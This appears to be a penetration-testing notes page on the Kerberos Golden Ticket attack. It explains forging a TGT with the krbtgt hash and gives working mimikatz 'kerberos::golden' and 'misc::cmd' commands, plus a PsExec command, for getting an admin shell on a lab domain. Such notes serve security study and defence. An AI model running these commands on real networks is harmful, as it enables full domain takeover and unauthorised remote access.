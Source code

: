 # Golden Ticket

## <mark style="color:red;">Intro</mark>

#### Golden Ticket Attack is a example of the Pass the Ticket Attack. the most infamous kerberos attack is known as the Golden Ticket which obviously is a kerberos ticket but with some differences.

{% hint style="info" %}
in order to create a valid TGT (with a valid PAC) we would require the target LT key and the KDC LT key. in case of a TGT these keys are identical (krbtgt). we would thus have to obtain the NTLM hash of the krbtgt account (RC4) or the AES key.
{% endhint %}

when we would use a golden ticket the first interaction is a TGS-REQ for a service ticket using the forged TGT (golden ticket). there is no prior credential submission or `AS_REQ/AS-REP`.

#### the difference between a golden ticket and other tickets (including the silver ticket ) is:

1. its created without any interaction with the DC. this is possible because kerberos is a stateless protocol so it does not keep track of all previously created TGTs.
2. it would require us to obtain the KDC long-term key (which is not easy to get)
3. its typically a TGT for an administrative account (RID 500 in a domain or domain administrator)
4. its typically valid for a long time (10 years by default)

## <mark style="color:red;">Creating a Golden Ticket</mark>

**with mimikatz we can create a Golden Ticket if we have the following information:**

* KDC LT key (e.g: krbtgt NTLM hash)
* Domain admin account name
* SID of domain admin account

#### all of these values can be obtained by any user in the domain except for KDC LT key.

assuming that we got access to administrator NTLM hash, we can move on with the attack.

```
kerberos::golden /user:client1 /domain:megacorp.local /sid:S-1-5-21-4081310294-3909750490-1069944866 /krbtgt:43e603fc59a5705d8a9f7c1c0a45b85e /id:500 /ptt
```

![](<../../../.gitbook/assets/image (200) (1).png>)

now we can get a shell with admin privileges:

```
misc::cmd
```

![](<../../../.gitbook/assets/image (201).png>)

or using psexe:

```
PsExec64.exe \\192.168.1.105 cmd.exe
```
